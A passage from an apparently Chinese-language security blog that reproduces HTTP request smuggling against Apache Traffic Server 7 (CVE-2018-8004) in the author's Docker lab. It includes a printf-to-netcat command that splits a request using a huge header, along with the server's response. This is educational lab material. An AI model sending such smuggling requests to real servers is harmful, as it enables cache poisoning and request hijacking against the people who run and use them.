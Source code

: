 关于这四个补丁的分析与复现我觉得 @mengchen 师傅已经写的非常详细了，我就不在赘述了，建议看原文部分 [HTTP走私攻击实例——CVE-2018-8004](https://paper.seebug.org/1048/#4-httpcve-2018-8004)

这里我们说一下原文没有的部分：

```plain
[dummy-host7.example.com]
                                        |
                                  +-[8080]-----+
                                  | 8007->8080 |
                                  |  ATS7      |
                                  |            |
                                  +-----+------+
                                        |
                                        |
                                  +--[80]----+
                                  | 8002->80 |
                                  |  Nginx   |
                                  |          |
                                  +----------+
```

我们构建以上场景，可以使用我搭建的 docker 实验环境 [lab1](https://github.com/ZeddYu/HTTP-Smuggling-Lab/tree/master/lab1)

### Request Splitting using Huge Header

我们可以通过使用 65535 个字符的 header 来进行实验，比如说我们可以通过使用以下代码来发送一个含有 65535 个字符的 header 的请求到 ATS 7:

```plain
printf 'GET_/something.html?zorg2=5_HTTP/1.1\r\n'\
'Host:_dummy-host7.example.com\r\n'\
'X:_"%65534s"\r\n'\
'GET_http://dummy-host7.example.com/index.html?replaced=0&cache=8_HTTP/1.1\r\n'\
'\r\n'\
|tr " " "1"\
|tr "_" " "\
|nc -q 1 127.0.0.1 8007
```

nginx 的返回会直接返回 400 错误，但是有 ATS 7 就比较有趣了，我们会得到一个 400 响应以及 ATS 7 的 200 响应

```plain
HTTP/1.1 400 Invalid HTTP Request
Date: Fri, 29 Nov 2019 18:52:42 GMT
Connection: keep-alive
Server: ATS/7.1.1
Cache-Control: no-store
Content-Type: text/html
Content-Language: en
Content-Length: 220

<HTML>
<HEAD>
<TITLE>Bad Request</TITLE>
</HEAD>

<BODY BGCOLOR="white" FGCOLOR="black">
<H1>Bad Request</H1>
<HR>

<FONT FACE="Helvetica,Arial"><B>
Description: Could not process this request.
</B></FONT>
<HR>
</BODY>
```
